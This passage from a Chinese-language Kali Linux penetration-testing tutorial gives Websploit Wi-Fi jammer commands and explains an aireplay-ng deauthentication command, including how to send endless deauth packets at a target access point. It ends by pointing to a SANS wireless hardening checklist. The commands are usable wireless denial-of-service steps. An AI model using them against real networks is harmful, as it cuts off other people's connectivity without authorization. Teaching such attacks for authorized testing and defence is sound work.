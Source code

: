     ```

输出将如下截图所示：

![操作步骤...](img/image_10_026.jpg)

1.  Websploit 中还有一些有效载荷；其中一个称为 Wi-Fi 干扰器。在 Kali 终端中使用以下命令执行：

```
          websploit
          use wifi/wifi_jammer
          show options
          set bssid xx:xx:xx:xx:xx:xx
          set essid xx:xx:xx:xx:xx:xx
          set interface wlanx
          set channel x
          run

    ```

输出将如下截图所示：

![操作步骤...](img/image_10_027.jpg)

1.  与`bssid`的连接被渲染为不可访问：![操作步骤...](img/image_10_028.jpg)

## 工作原理...

让我们了解在这个教程中使用的命令：

+   `aireplay-ng --deauth 100 -a (BSSID) -c wlan0mon`：这里，`--deauth`命令启动一个`deauth`请求，后跟`100`，指定`deauth`请求发送 100 次。

如果攻击者想要持续发送 Deauth 并且永不停止，可以使用`--deauth 0`向目标发送无休止的`deauth`请求。

+   `websploit`：这将初始化 Websploit 框架

+   使用 wifi/ wifi_jammer：这个命令将加载干扰器模块

+   `set bssid xx:xx:xx:xx:xx:xx`：其中`xx:xx:xx:xx:xx:xx`将是`bssid`；对`essid`也是一样的

+   设置接口 wlanx：`wlanx`将是我们的适配器连接的接口

+   `run`：这将执行脚本并启动攻击

## 还有更多...

无线攻击很难被发现；最好的方法就是采取预防和加固措施。SANS 已经制定了一个非常好的清单，讨论了无线网络的加固措施。可以在[`www.sans.org/score/checklists/wireless`](https://www.sans.org/score/checklists/wireless)找到。

还有其他工具可以提供无线攻击的上述功能。

对于理解 BSSID、ESSID 和监视模式有困难的读者，这里有一个解释：

```